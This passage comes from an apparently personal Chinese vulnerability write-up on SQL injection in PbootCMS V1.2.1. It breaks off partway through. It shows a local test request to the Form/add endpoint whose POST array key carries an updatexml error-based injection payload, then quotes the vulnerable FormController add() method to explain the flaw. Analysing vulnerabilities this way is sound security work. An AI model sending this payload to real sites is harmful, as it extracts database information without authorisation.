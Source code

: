 根据6.0可以看到带入了进入了 insert 那么我们传的二维数组刚好可以控制key
带入数据库查询引发注入

0x01.2 免费通话insert sql注入
-----------------------------

注：本地测试的时候，这个地方的注入需要后台添加一条数据才能注！真实环境的话，开放了这个功能直接抓包即可
进入后台

![](/Users/aresx/Documents/VulWiki/.resource/PbootCMSsql注入/media/rId28.png)

![](/Users/aresx/Documents/VulWiki/.resource/PbootCMSsql注入/media/rId29.png)

![](/Users/aresx/Documents/VulWiki/.resource/PbootCMSsql注入/media/rId30.png)

![](/Users/aresx/Documents/VulWiki/.resource/PbootCMSsql注入/media/rId31.png)

### 0x08.2.1 漏洞演示

![](/Users/aresx/Documents/VulWiki/.resource/PbootCMSsql注入/media/rId33.png)

    url：http://127.0.0.1/cms/PbootCMS-V1.2.1/index.php/Form/add?fcode=2
    post：
      tel[tel`) VALUES ( 1 and updatexml(1,concat(0x3a,user()),1) );-- a] = 1111

![](/Users/aresx/Documents/VulWiki/.resource/PbootCMSsql注入/media/rId34.png)

### 0x08.2.2 漏洞解读

路径：PbootCMS-V1.2.1\\apps\\home\\controller\\FormController.php
方法：add(

    // 表单提交
        public function add()
        {
            if ($_POST) {

                if (time() - session('lastsub') < 10) {
                    alert_back('您提交太频繁了，请稍后再试！');
                }

                if (! $fcode = get('fcode', 'var')) {
                    alert_back('传递的表单编码有误！');
                }

                if ($fcode == 1) {
                    alert_back('表单提交地址有误，留言提交请使用留言专用地址!');
                }

                // 验证码验证
                /*
                 * $checkcode = post('checkcode');
                 * if ($this->config('message_check_code')) {
                 * if (! $checkcode) {
                 * alert_back('验证码不能为空！');
                 * }
                 * if ($checkcode != session('checkcode')) {
                 * alert_back('验证码错误！');
                 * }
                 * }
                 */
